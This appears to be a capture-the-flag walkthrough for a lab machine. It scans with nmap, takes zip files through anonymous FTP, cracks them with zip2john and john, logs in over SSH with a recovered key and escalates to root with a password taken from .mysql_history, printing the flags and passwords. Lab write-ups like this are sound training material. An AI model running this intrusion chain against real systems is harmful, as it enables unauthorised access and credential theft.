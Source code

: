 First I scanned the machine for open ports using nmap
```
nmap -sV 192.168.103.107
```
Then I attempted to access ftp as the user anonymous. I successfully gained access to the ftp port because 
anonymous login was enabled.

commands used after access:
```
ls -al 
```
```
mget *.zip
```
The zip files were encrypted and so I decided to use john to decrypt the folders.
Of the folders decrypted tom was the most useful user to access.

Command used to create the hash to crack:
```
zip2john tom.zip > tom.hash
```
Command used to crack the hash:
```
john --worlist=rockyou.txt tom.hash
```
Password found for user tom was 
```
iubire
```
After unzipping the folder I received an id_rsa ssh key that I then used to gain initial access to the machine and 
found the first flag.
commands used to gain initial foothold:
```
chmod 400 id_rsa
ssh -i id_rsa tom@192.168.103.107
ls -la
```
user flag: 5b943003d8c7ddfe47c0bc08091889d6

after finding the user flag I found a file '.mysql_history' which contained the password(xx11yy22!)
which then allowed me to use the command 
```
sudo -l
```
which told me that tom could run all commands on the box.
Since I could use all commands I used the command to give me root access
```
sudo su
```
which then allowed me  to go to cd into the root folder and gaine the root flag

root flag: 7a62883dd2c457e9b9b6f8f26028a710

The machine is fully compromised and actions are no longer required.



